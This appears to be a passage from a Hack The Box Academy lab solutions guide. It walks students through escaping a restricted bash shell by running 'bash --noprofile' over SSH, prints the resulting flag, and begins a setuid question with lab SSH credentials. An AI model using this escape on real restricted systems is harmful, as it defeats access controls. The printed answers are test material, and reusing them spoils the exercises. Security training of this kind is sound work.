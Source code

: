 Students need to use a search engine and look for Rbash bypasses, eventually finding the following article [Linux Restricted Shell Bypass | VK9 Security (vk9-sec.com)](https://vk9-sec.com/linux-restricted-shell-bypass/).

Under Advanced Techniques, students will see multiple SSH bypasses:

![[HTB Solutions/CPTS/z. images/b47edce841d107a2cf1e7abc50be79e3_MD5.jpg]]

Students need to reproduce the ssh2 bypass. The flag's content is shown to be `HTB{35c4p3_7h3_r3stricted_5h311}`.:

Code: shell

```shell
ssh htb-user@STMIP -t "bash --noprofile"
Ctrl+c
ls
cat flag.txt
```

```
┌─[eu-academy-1]─[10.10.15.186]─[htb-ac-594497@htb-gdlgiim4hw]─[~]
└──╼ [★]$ ssh htb-user@10.129.37.149 -t "bash --noprofile"

htb-user@10.129.37.149's password: 
^C
htb-user@ubuntu:~$ ls

bin  flag.txt
htb-user@ubuntu:~$ cat flag.txt

HTB{35c4p3_7h3_r3stricted_5h311}
```

Answer: `HTB{35c4p3_7h3_r3stricted_5h311}`

# Special Permissions

## Question 1

### "Find a file with the setuid bit set that was not shown in the section command output (full path to the binary)."

Students first need to connect to `STMIP` with `SSH` using the credentials `htb-student:Academy_LLPE!`:

Code: shell

```shell
ssh htb-student@STMIP
```

```
┌─[us-academy-1]─[10.10.14.118]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ ssh htb-student@10.129.119.156

The authenticity of host '10.129.119.156 (10.129.119.156)' can't be established.
ECDSA key fingerprint is SHA256:jqHwbeBBQLd/z1BFRM732tTqQbhKGni0KhrGMszsiVM.
Are you sure you want to continue connecting (yes/no/[fingerprint])? Yes
Warning: Permanently added '10.129.119.156' (ECDSA) to the list of known hosts.
htb-student@10.129.119.156's password: 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-116-generic x86_64)

<SNIP>

htb-student@NIX02:~$
```
